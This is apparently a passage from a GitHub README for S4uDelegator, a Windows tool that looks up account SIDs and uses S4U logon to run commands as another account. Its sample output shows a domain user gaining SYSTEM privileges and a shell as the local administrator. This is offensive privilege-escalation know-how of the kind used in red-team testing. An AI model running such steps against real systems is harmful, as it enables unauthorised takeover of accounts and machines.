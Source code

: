 To use this tool, `-l` or `-x` flag must be specified.
`-l` flag is for looking up account information as follows:

```
PS C:\Tools> .\S4uDelegator.exe -l -d contoso -n "domain admins"

[*] Account Name : CONTOSO\Domain Admins
[*] SID          : S-1-5-21-3654360273-254804765-2004310818-512
[*] Account Type : Group

PS C:\Tools> .\S4uDelegator.exe -l -s S-1-5-80-1913148863-3492339771-4165695881-2087618961-4109116736

[*] Account Name : NT SERVICE\WinDefend
[*] SID          : S-1-5-80-1913148863-3492339771-4165695881-2087618961-4109116736
[*] Account Type : WellKnownGroup
```

To execute command with S4U logon, set `-x` flag, and specify account name or SID as follows.
Command to execute can be specified with `-c` option (default is `cmd.exe`):

```
PS C:\Tools> whoami /user

USER INFORMATION
----------------

User Name    SID
============ =============================================
contoso\jeff S-1-5-21-3654360273-254804765-2004310818-1105
PS C:\Tools> .\S4uDelegator.exe -x -d . -n admin

[*] S4U logon target information:
    [*] Account : CL01\admin
    [*] SID     : S-1-5-21-2659926013-4203293582-4033841475-500
    [*] UPN     : (Null)
    [*] Type    : User
[>] Trying to get SYSTEM.
[+] Got SYSTEM privileges.
[>] Trying to S4U logon.
[+] S4U logon is successful.
[>] Trying to create a token assigned process.
Microsoft Windows [Version 10.0.18362.175]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Tools>whoami /user

USER INFORMATION
----------------

User Name  SID
========== =============================================
cl01\admin S-1-5-21-2659926013-4203293582-4033841475-500
```
